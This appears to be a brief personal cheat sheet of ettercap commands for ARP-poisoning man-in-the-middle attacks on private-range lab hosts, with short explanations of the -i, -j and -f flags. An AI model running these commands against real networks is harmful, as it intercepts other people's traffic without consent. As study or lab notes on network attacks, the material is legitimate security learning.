

shoot ips into a text file
> echo -e "192.168.16.1 \n192.168.16.2" > hosts.txt
using ettercap for the man in the middle
> sudo ettercap -T -M arp:remote -o ///192.168.16.1 ///192.168.16.2 -i eth0 -j hosts.txt


-i = pick the interface (in this case eth0)

-j = load from text file
-------------------------------------------------------
Arp poisioning
> sudo ettercap -T -f 'port not 8443' -M arp /192.168.48.2// /192.168.48.3//
-f is a filter